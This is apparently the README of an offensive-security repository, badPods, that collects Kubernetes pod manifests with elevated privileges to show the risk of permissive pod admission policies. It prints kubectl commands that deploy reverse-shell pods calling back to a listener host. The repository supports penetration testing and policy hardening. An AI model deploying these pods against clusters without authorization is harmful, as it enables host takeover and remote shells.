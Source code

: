 # badPods

A collection of manifests that create pods with different elevated privileges. Quickly demonstrate the impact of allowing specific security sensitive pod specifications. 

## Background
Occasionally pods need access to privileged resources on the host, so the Kubernetes pod spec allows for it. However, this level of access should be granted with extreme caution. Administrators have ways to prevent the creation of pods with these security sensitive pod specifications using Pod Security Policies or with admission controllers like OPA Gatekeeper. However, the real-world security implication of allowing a certain attributes is not always understood, and quite often, pod creation polices are not as locked down as they should be. 

## Purpose
What if you can create a pod with just `hostNetwork`, just `hostPID`, just `hostIPC`, just `hostPath`, or just `privileged`? What can you do in each case? This respository aims to help you answer those questions. 

## Prerequisites
In order to be successful in this attack path, you'll need the following: 

1. Access to a cluster 
1. Permission to create pods in at least one namespace. If you can exec into them that makes life easier.  
1. A pod security policy (or other pod admission controller's logic) that allows pods to be created with one or more security sensitive attributes, or no pod security policy / pod admission controller at all

## The badPods line-up
In most situations, if you have permission to create pods, you also have permission to `exec` into them. However, that is not always the case so a version of each pod is included that will call back to your listener as soon as the pod is created. 

Notes | readme | pod | revshell
-- | -- | -- | --
Everything allowed | [readme](yaml/everything-allowed/) | [yaml](yaml/everything-allowed/pod-everything-allowed.yaml) | [yaml](yaml/everything-allowed/pod-everything-allowed-revshell.yaml)
Privileged and hostPid | [readme](yaml/priv-and-hostpid/) | [yaml](yaml/priv-and-hostpid/pod-priv-and-hostpid.yaml) | [yaml](yaml/priv-and-hostpid/pod-priv-and-hostpid-revshell.yaml)
Privileged only | [readme](yaml/priv/) | [yaml](yaml/priv/pod-priv.yaml) | [yaml](yaml/priv/pod-priv-revshell.yaml)
hostPath only | [readme](yaml/hostpath/) | [yaml](yaml/hostpath/pod-hostpath.yaml) | [yaml](yaml/hostpath/pod-hostpath-revshell.yaml)  
hostPid only | [readme](yaml/hostpid/) | [yaml](yaml/hostpid/pod-hostpid.yaml) | [yaml](yaml/hostpid/pod-hostpid-revshell.yaml)  
hostNetwork only | [readme](yaml/hostnetwork/) | [yaml](yaml/hostnetwork/pod-hostnetwork.yaml) | [yaml](yaml/hostnetwork/pod-hostnetwork-revshell.yaml)
hostIPC only | [readme](yaml/hostipc/) | [yaml](yaml/hostipc/pod-hostipc.yaml) | [yaml](yaml/hostipc/pod-hostipc-revshell.yaml)
Nothing allowed | [readme](yaml/nothing-allowed/) | [yaml](yaml/nothing-allowed/pod-nothing-allowed.yaml) | [yaml](yaml/nothing-allowed/pod-nothing-allowed-revshell.yaml)


# Impact - What's the worst that can happen?
Check out blog post here

# Usage
 Each resource in the `yamls` directory targets a specific attribute or a combination of attributes that expose the cluster to risk when allowed. Each subdirectory has it's own usage information which includes tailored post-exploitation ideas and steps.  

### Clone the repo
```bash
git clone https://github.com/BishopFox/badPods
cd badPods
```

### Create the pods (or at least try to create them)

```bash
kubectl apply -f ./yaml/everything-allowed/pod-everything-allowed.yaml
kubectl apply -f ./yaml/priv-and-hostpid/pod-priv-and-hostpid.yaml 
kubectl apply -f ./yaml/priv/pod-priv.yaml
kubectl apply -f ./yaml/hostpath/pod-hostpath.yaml
kubectl apply -f ./yaml/hostpid/pod-hostpid.yaml 
kubectl apply -f ./yaml/hostnetwork/pod-hostnetwork.yaml
kubectl apply -f ./yaml/hostipc/pod-hostipc.yaml
kubectl apply -f ./yaml/nothing-allowed/pod-nothing-allowed.yaml

```

### Reverse shell version of each pod
If you can create pods but not exec  into them, you can use the reverse shell version of each pod. To avoid having to edit each pod with your host and port, you can environment variables and the `envsubst` command. Remember to spin up all of your listeners first!

```bash
HOST="10.0.0.1" PORT="3111" envsubst < ./yaml/priv-and-hostpid/pod-priv-and-hostpid-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3112" envsubst < ./yaml/hostpid/pod-hostpid-revshell.yaml  | kubectl apply -f -
HOST="10.0.0.1" PORT="3113" envsubst < ./yaml/hostnetwork/pod-hostnetwork-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3114" envsubst < ./yaml/hostpath/pod-hostpath-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3115" envsubst < ./yaml/hostipc/pod-hostipc-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3116" envsubst < ./yaml/everything-allowed/pod-everything-allowed-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3116" envsubst < ./yaml/nothing-allowed/pod-nothing-allowed-revshell.yaml | kubectl apply -f -
```

# Acknowledgements 
Thank you [Rory McCune](https://twitter.com/raesene), [Duffie Cooley](https://twitter.com/mauilion), [Brad Geesaman](https://twitter.com/bradgeesaman), [Tabitha Sable](https://twitter.com/tabbysable), [Ian Coldwater](https://twitter.com/IanColdwater), and [Mark Manning](https://twitter.com/antitree) for publicly sharing so much knowledge about Kubernetes offensive security. 
